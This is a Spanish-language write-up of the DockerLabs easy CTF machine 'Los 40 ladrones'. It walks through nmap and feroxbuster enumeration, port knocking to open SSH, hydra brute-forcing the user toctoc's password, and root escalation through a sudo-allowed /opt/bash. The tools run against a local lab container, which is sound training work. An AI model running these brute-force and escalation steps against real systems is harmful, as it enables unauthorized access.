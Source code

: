 ```yaml
---
layout: post
title: Los 40 ladrones
date: 2024.07.04
categories: [dockerlabs, ctf, linux, facil]
---
```


![image](/assets/images/los40/los40.jpg)

Estamos ante un docker que contiene una distribución Linux. Es de nivel fácil y es de la plataforma [dockerlabs](https://dockerlabs.es).

# Enumeración

Ponemos el docker en marcha con el `auto_deploy.sh` que trae el zip. Cuando termina de cargar nos indica la dirección IP de nuestra víctima, en nuestro caso es `172.17.0.2`. 

Empezamos realizando un escaneo de puertos con `nmap`. Hacemos un escaneo silencioso`-sS`, a todos los puertos `-p-`, que nos de detalles del escaneo `-v`, que no haga ping al host `-Pn`, que no haga resolución de DNS `-n` a nuestra máquina victima `172.17.0.2`:

```bash
sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
80/tcp open  http
```

Vemos que solo tiene el puerto **80** abierto. Vamos a realizar otro escaneo con `nmap` pero esta vez para detectar la versión del servicio que este corriendo, `-sV`, y para ejecutar los scripts por defecto para detectar vulnerabilidades, `-sC`:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```

Vemos que la web es una página por defecto de la instalación de apache. Buscamos directorios y ficheros en el servidor con **feroxbuster**. Buscamos las extensiones **php**, **html** y **txt**:

```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -r -d 2 -x php,html,txt
200      GET      367l      977w    10792c http://172.17.0.2/index.html
200      GET       22l      105w     5952c http://172.17.0.2/icons/ubuntu-logo.png
200      GET      367l      977w    10792c http://172.17.0.2/200      GET        3l       20w      111c http://172.17.0.2/qdefense.txt
```

Encontramos un fichero llamado **qdefense.txt**. Lo descargamos y leemos su contenido:

```bash
curl http://172.17.0.2/qdefense.txt
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

De el fichero obtenemos que hay un user llamado **toctoc** y una secuencia de números que puede ser una secuencia de **Port Knocking.**  El port knocking es un mecanismo para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados. Una vez que el firewall recibe una secuencia de conexión correcta, sus reglas son modificadas para permitir al host que realizó los intentos conectarse a un puerto específico. 

Para instalar en kali el comando knock realizamos lo siguiente: `sudo apt update && sudo apt install -y knockd`

# Intrusión

Después golpeamos los puertos en la secuencia que hemos visto:

```bash
knock -v 172.17.0.2 7000 8000 9000
hitting tcp 172.17.0.2:7000
hitting tcp 172.17.0.2:8000
hitting tcp 172.17.0.2:9000
```

Realizamos un nuevo escaneo de puertos:

```bash
sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora ya tenemos el puerto **22** abierto. Como tenemos un user del sistema vamos a probar a buscar la contraseña de dicho usuario con **hydra**:

```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt -t 16 -VIf ssh://172.17.0.2
...
826 of 14344401 [child 12] (0/2)
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
[STATUS] attack finished for 172.17.0.2 (valid pair found)
```

Nos conectamos con la password recién encontrada: 

```bash
ssh toctoc@172.17.0.2                 
toctoc@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)
```

# Escalada de privilegios

Vemos si el usuario toctoc puede ejecutar algún comando como **root**:

```bash
toctoc@50a589993c7e:~$ sudo -l
Matching Defaults entries for toctoc on 50a589993c7e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User toctoc may run the following commands on 50a589993c7e:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
toctoc@50a589993c7e:~$
```

Puede ejecutar /opt/bash como root. Como sabemos ejecutando `/opt/bash -p` podemos obtener acceso como **root**:

```bash
toctoc@50a589993c7e:~$ sudo /opt/bash -p
root@50a589993c7e:/home/toctoc# whoami; hostname; date
root
50a589993c7e
Fri Jul  5 08:20:09 +10 2024
```
